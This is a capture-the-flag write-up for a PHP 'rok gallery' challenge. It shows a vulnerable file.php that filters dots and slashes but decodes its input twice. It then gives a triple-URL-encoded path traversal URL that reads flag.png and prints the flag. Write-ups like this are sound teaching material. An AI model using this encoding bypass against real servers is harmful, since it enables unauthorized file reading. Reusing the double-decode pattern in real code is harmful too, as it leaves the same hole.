 # roks
> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

## About the Challenge
We were given a source code (You can download the source code [here](roks.zip)) and we got the website too. Here is the preview of the website


[Image extracted text: < >
C
Not secure
roks:
chal.imaginaryctforg
Elements
Console
Scurces
Network
Perfcrmance
Memory
Application
Secu
Preserve lcg
Disaole cache
No throttling
rok gallery
Use large recuest rcws
Group by fra
Snow overview
Capture scre
Name
S-a-us
Type
Initiator
file pnp?filezimage7
Z00
(indebQ
blcb:htto /{roks chalimaginaryc-forg/4ee59o09-_
200
png
(indexl4
blcb:htto / {roks chalimaginaryc iorg/olScecde-,
Z00
png
(inde4lit
~get rok picture
requests
132 kB transferred
441 kB resources]


There is one button which will generate rock images by hitting `/file.php?image` endpoint. And as you can see in the network tab, `image7` is a file name. Which is we can predict this chall was about path traversal vulnerability

## How to Solve?
Let's check the source code! There are 2 files, `index.php` and `file.php`. Here is the content of `file.php`

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

This PHP script takes a file name from the parameter called `file`, checks if there is `.` or `/` in the value of the parameter, and serves the corresponding image file with the correct MIME content type. If it detects an unsafe file name, it serves a default image instead. And as you can see, this code was vulnerable to path traversal, but this code using `urldecode()` PHP function twice. That's why to do path traversal, we need to URL encode our payload three times

```
http://roks.chal.imaginaryctf.org/file.php?file=%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566flag%25252Epng
```

Open the URL in your browser and then you will get a flag in the form of an image


[Image extracted text: < > C
Not secure
roks challimaginaryctforg/file php?file-%252592532962565925259253
96256596252
06253
06252
062
65%0
925259253202566925_
ictf{transv3rslng_Ov3r_
rok5_6a3367}]


```
ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}
```